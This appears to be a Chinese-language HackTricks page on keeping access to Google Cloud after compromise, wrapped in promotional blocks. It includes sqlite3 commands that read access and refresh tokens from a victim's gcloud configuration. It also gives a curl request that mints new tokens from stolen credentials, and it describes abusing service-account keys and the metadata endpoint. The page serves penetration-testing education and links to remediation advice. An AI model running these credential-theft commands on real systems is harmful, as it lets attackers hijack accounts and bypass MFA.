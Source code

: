 # GCP - 非服务持久性

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**telegram群组**](https://t.me/peass)或在**Twitter**上**关注**我 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

这些是一旦您以某种方式获取了一些GCP凭证或在GCP环境中运行的机器后，非常有用的技术。

## 令牌劫持

### 已认证用户

如果您设法访问了**GCP中已认证用户的主文件夹**，**默认情况下**，您将能够**随时获取该用户的令牌**，而无需认证，无论您使用他的令牌的机器如何，即使用户配置了MFA。

这是因为默认情况下，您**将能够使用刷新令牌**，只要您想生成新的令牌。

要获取用户的当前令牌，您可以运行：

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
```
获取生成新访问令牌所需详细信息，请运行：
```
```bash
sqlite3 ./.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
```
要使用刷新令牌、客户端ID和客户端密钥获取新的刷新访问令牌，请运行：
```
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

刷新令牌的有效性可以在 **Admin** > **Security** > **Google Cloud session control** 中管理，默认设置为16小时，尽管可以设置为永不过期：

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### 服务账户

就像已认证用户一样，如果你设法**获取服务账户的私钥文件**，你将能够**通常随心所欲地访问它**。\
然而，如果你窃取了服务账户的 **OAuth 令牌**，这可能更加有趣，因为即使默认情况下这些令牌只在一个小时内有效，如果**受害者删除了私有 API 密钥，OAuth 令牌仍将有效，直到它过期**。

### 元数据

显然，只要你在 GCP 环境中运行的机器内部，你将能够**通过联系元数据端点访问附加到该机器的服务账户**（注意，你在此端点中访问的 Oauth 令牌通常受到范围限制）。

### 补救措施

这些技术的一些补救措施在 [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2) 中有解释

## 参考资料

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> 从零开始学习 AWS 黑客攻击！</strong></summary>

支持 HackTricks 的其他方式：

* 如果你想在 **HackTricks** 中看到你的**公司广告**或**下载 HackTricks 的 PDF** 版本，请查看 [**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFTs**](https://opensea.io/collection/the-peass-family) 系列
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享你的黑客技巧**。

</details>
